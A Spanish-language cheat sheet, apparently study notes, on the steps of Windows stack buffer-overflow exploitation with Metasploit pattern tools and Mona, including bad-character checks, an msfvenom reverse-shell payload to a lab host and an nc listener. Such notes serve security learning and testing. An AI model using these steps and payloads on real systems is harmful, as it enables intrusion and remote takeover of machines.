 > # Buffer Overflow

# Desensamblar un archivo .exe 

```
objdump -d -Mintel goodpwd.exe > goodpwd_disassembled.txt
```


# Algunas Operaciones Inseguras
- strcpy
- vsprintf
- strcat
- printf
- gets / fgets
- memcpy
- scanf/ fscanf

# Calculado el offset
### Script dir
```
cd /usr/share/metasploit-framework/tools/exploit/
```
## Paso 1 
### Generar un payload con patter_create.rb, tan grande como el numero que especifiquemos
```
./pattern_create.rb -l 2000
```

## Paso 2
### Copiamos el payload generado y lo usamos en el input

## Paso 3 
### Utilizamos el espacio de memoria para calcular el offset por medio de patter_offset
```
./pattern_offset.rb -q 30684239 
```

# Uso de Mona
## Configuramos el directorio de trabajo para Mona
```
!mona config -set workingfolder C:\somefolder\%p
```
## Para crear un payload con Mona 
```
!mona pc 100
```
## Para calcular el Offset
```
!mona po 61413761
```
## Una vez que el EIP es sobreescrito podemos ejecutar:
```
!mona suggest
```
Mona nos pedirá que proporcionemos información sobre la carga útil y creará automáticamente un módulo Metasploit para explotar la aplicación.
## Para ver modulos que no tengan ASLR activado 
```
!mona noaslr
```
## Para verificar los modulos disponibles con el detalle de medidas de seguridad de cada uno
```
!mona modules
```
## Para saltar a un registro, especificamos el registro con -r
```
!mona jmp -r esp
```
## Tambien podemos especificar un modulo o mas de uno con -m
```
!mona jmp -r esp -m kernel
```
o de misma manera se puede usar para buscar entre todas las opciones del sistema con:
```
!mona find -s "\xff\xe4" -m kernel
```
donde `xFFxE4 = JMP ESP`

Una vez que se encuentra la direccion de la instruccion se puede continuar

# Identificar los BadChars
## Lista de todos los badchars
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
## Identificar batchars con mona
Previamente debemos tener un directorio de trabajo creado y usar 
```
!mona bytearray
```
Con lo cual se creara un archivo `bytearray.bin` en la carpeta de nuestro directorio de trabajo.
Luego ejecutamos el payload mandando los batchars, y comparamos usando 
```
!mona compare -f C:\Users\Diego\Desktop\carpeta\bytearray.bin -a 0187A128
```
donde especificamos la ruta del archivo `.bin` y con el parametro `-a` especificamos la direccion del `ESP`. Lo siguiente es quitar el resultado de badchar detectado de nuestro payload y crear otro `bytearray.bin` con el siguiente comando
```
!mona bytearray -cpb "\x00"
```
Donde especificamos los badchar que no queremos que se incluya en el nuevo `bytearray.bin`

# Generar la shellcode
## Ejemplo de Shellcode
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.15 LPORT=4646 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c
```
Donde especificamos la aqrquitectura del sistema, los badchars que no queremos que se incluyan en el shellcode.
## Para escuchar el puerto podemos usar 
```
rlwrap nc -nlvp 446
```
## Alternativa al uso de NOPs en la shellcode
El desplazamiento de pila es la alternativa al uso de NOPs, para ello utilizamos `nasm`, ejemplo recorrer en 10 unidades
```
sub esp,0x10
```
Lo cual nos dara como resultado el siguiente opcode
```
\x83\xEC\x10
```
